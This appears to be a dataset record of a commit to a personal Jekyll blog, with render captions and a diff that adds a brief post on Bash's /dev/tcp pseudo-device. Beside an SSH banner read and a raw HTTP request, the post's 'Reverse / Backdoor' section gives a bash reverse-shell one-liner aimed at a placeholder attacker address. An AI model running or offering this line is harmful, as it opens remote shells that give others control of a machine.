

Before and after one commit to sofblocks/sofblocks.github.io, a Jekyll site: the page built from _pages/tag-archive.md, in a window 1280 px wide and 1400 px high, scrolled down 2296 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; before the commit the page ends 2926 px from its top, so only the background shows below that.

Commit message:
added dev/tcp

````diff
--- /dev/null
+++ b/_posts/blog/2020-05-21-dev-tcp.md
@@ -0,0 +1,33 @@
+---
+layout: single
+title: "/dev/tcp"
+excerpt: "It’s pseudo device file ,opening tcp connection to socket."
+toc: true
+classes: wide
+tags: [Linux, Tcp, Shell]
+---
+
+It’s pseudo device file ,opening tcp connection to socket
+
+## How it works
+
+```python
+    [root@Euzebiusz ~]# cat < /dev/tcp/127.0.0.1/22
+    SSH-2.0-OpenSSH_7.4
+This is a virtual function
+    [root@Euzebiusz ~]# ls -l  /dev/tcp
+    ls: cannot access '/dev/tcp': No such file or directory
+```
+
+## Its uses:
+### Web browsing:
+```python
+    exec 15<>/dev/tcp/consolechars.wordpress.com/80
+    echo -e "GET / HTTP/1.1\n\n" >&15
+    cat <&15
+```
+### Reverse / Backdoor
+
+```python
+   bash -i >& /dev/tcp/attackersip/port 0>&1
+```
````
Also changed, not shown: _notes/2020-05-10-misc.md (+2 -0 lines).
